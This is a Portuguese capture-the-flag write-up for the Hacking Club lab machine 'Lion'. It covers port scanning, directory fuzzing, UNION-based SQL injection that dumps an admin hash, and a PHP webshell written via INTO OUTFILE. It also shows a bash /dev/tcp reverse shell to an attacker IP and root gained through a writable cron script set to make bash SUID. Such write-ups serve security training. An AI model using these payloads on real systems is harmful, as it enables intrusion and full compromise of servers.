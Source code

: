 ```yaml
---
title: 'Lion Writeup'
date: '2024-11-07'
tags: ['SQLI', 'RCE', 'Linux']
draft: false
summary: 'A máquina Lion é vulnerável a injeção SQL, permitindo RCE através do upload de uma webshell, e possui escalonamento de privilégios via cron jobs.'
images: ['/static/images/lion-writeup-images/default.png']
authors: ['default']
---
```


![logo](/static/images/lion-writeup-images/default.png)

## **Plataforma**: Hacking Club

### **Dificuldade:** Easy

### **Nome**: Lion

---

### **Port Scanning**

`nmap -sV -sC -p- -v $IP --open`

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 54:10:95:51:0a:58:e3:99:94:df:38:18:97:6a:4d:2b (RSA)
|   256 59:92:28:b0:58:99:ad:d8:e0:b3:2a:c5:0e:68:8a:b9 (ECDSA)
|_  256 57:64:77:04:34:fa:d5:00:ba:8d:e7:19:44:2f:7b:d6 (ED25519)
80/tcp   open  http    Apache httpd 2.4.46 (() PHP/7.4.15)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: News Portal | Home Page
|_http-server-header: Apache/2.4.46 () PHP/7.4.15
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
3306/tcp open  mysql   MariaDB (unauthorized)
```

Portas 22 (SSH), 80 (HTTP), 111 (RPC) e 3306 (MySql) Abertas.

---

## **Enumeration**

## http://172.16.9.144

![lion](/static/images/lion-writeup-images/image.png)

### Fuzzing

`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://172.16.9.144/FUZZ -e .php -ic`

![lion 1](/static/images/lion-writeup-images/image1.png)

Endpoint `/admin` encontrado via fuzzing; no entanto, não está vulnerável à SQL Injection.

Testei algumas coisas como passar uma aspas simples e credenciais padrões como `admin:admin` mas não obtive sucesso.

![lion 2](/static/images/lion-writeup-images/image2.png)

Testando SQL Injection no campo de pesquisa.

![lion 3](/static/images/lion-writeup-images/image3.png)

`' or 1=1 -- -` retornou todos os posts.

![lion 4](/static/images/lion-writeup-images/image4.png)

Enumerando o número de tabelas existentes com `union select`

`' union select 1,2,3,4,5,6 -- -`

![lion 5](/static/images/lion-writeup-images/image5.png)

Quando testado com 7 colunas, ele funciona e reflete número 2, ou seja, é nessa coluna que devemos injetar.

`' union select 1,2,3,4,5,6,7 -- -`

![lion 6](/static/images/lion-writeup-images/image6.png)

`' union select 1,@@version,3,4,5,6,7 -- -`

![lion 7](/static/images/lion-writeup-images/image7.png)

Pegando o nome do banco de dados:

`' union select 1,database(),3,4,5,6,7 -- -`

![lion 8](/static/images/lion-writeup-images/image8.png)

`' union select 1,table_name,3,4,5,6,7 FROM information_schema.tables WHERE table_schema='news' -- -`

![lion 9](/static/images/lion-writeup-images/image9.png)

`' union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'tbladmin' -- -`

![lion 10](/static/images/lion-writeup-images/image10.png)

Pegando a senha do admin:

`' union select 1,concat(AdminUserName,":",AdminPassword),3,4,5,6,7 from tbladmin -- -`

![lion 11](/static/images/lion-writeup-images/image11.png)

O hash em questão é um Bcrypt, pois começa com `$2`, um dos hashes mais difíceis de quebrar, o que torna inviável um ataque de força bruta.

---

## Foot Hold

Utilizando o SQL Injection pra ganhar uma web shell.

`' union select 1,"<?php system($_GET['cmd']) ?>",3,4,5,6,7 into outfile "/var/www/html/includes/cmd.php" -- -`

![lion 12](/static/images/lion-writeup-images/image12.png)

`http://172.16.9.144/includes/cmd.php?cmd=id`

![lion 13](/static/images/lion-writeup-images/image13.png)

`http://172.16.9.144/includes/cmd.php?cmd=bash -c 'exec bash -i &>/dev/tcp/10.0.31.150/1337 <&1`

OBS: Lembre-se de encodar a payload.

![lion 14](/static/images/lion-writeup-images/image14.png)

`nc -lnvp 1337`

![lion 15](/static/images/lion-writeup-images/image15.png)

---

## Privillege Escalation

Cron de um script de backup sendo executado pelo root.

![lion 16](/static/images/lion-writeup-images/image16.png)

Olhando as permissões do script, eu tenho permissão de escrita,leitura e execução.

![lion 17](/static/images/lion-writeup-images/image17.png)

Simplesmente alterei o script para adicionar as permissões especiais no `/bin/bash`, transformando ele em um `SUID` .

`nano lion.backup.sh`

![lion 18](/static/images/lion-writeup-images/image18.png)

![lion 19](/static/images/lion-writeup-images/image19.png)

---

## Proof

![lion 20](/static/images/lion-writeup-images/image20.png)
